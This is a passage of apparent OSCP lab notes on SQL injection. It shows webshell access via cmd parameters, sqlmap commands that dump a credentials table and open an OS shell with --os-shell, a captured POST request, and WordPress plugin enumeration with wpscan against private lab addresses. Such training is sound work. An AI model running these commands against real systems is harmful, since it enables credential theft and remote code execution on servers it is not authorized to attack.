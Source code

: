 3. Expanding the query that writes a webshell3 on disk
```
Input: ![[Pasted image 20240127085835.png]]

Output: Fatel error

```

4. Access command line through link - http://192.168.218.19/tmp/webshell.php?cmd=id

######  10.3.2. Automating the Attack

1. Running sqlmap to quickly find SQL injection points. 
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user # U = url and P = parameter 
```

2. Running sqlmap to Dump Users Credentials Table
```
sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -p user --dump
```

4. Capture traffic using burpsuite and save as post.txt
```
POST /search.php/ HTTP/1.1
Host: 192.168.218.19
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 9
Origin: http://192.168.218.19
Connection: close
Referer: http://192.168.218.19/search.php/
Cookie: PHPSESSID=1b820n76oooqvk5sjjpjkmou44
Upgrade-Insecure-Requests: 1

item=test
```

5. Running SQLmap with os-shell. 
```
sqlmap -r post.txt -p item  --os-shell  --web-root "/var/www/html/tmp"
```


*Lab Exercise*
1. In theory 
2. http://192.168.218.19/tmp/webshell.php?cmd=cat%20flag.txt 
3. sqlmap -u http://192.168.50.19/blindsqli.php?user=1 -T -p user --dump
4. Follow these steps
```
1. Add to /etc/hosts
──(kali㉿kali)-[~/OSCP/10]
└─$ cat /etc/hosts                                               
127.0.0.1       localhost
127.0.1.1       kali

192.168.218.47  alvida-eatery.org

2. Check out website with wappalyzer - it is wordpress web

3. Find out vulnerability with wpscan 
wpscan --url http://alvida-eatery.org/ --enumerate ap,u,t
(Found out 'perfect survey' https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad)

```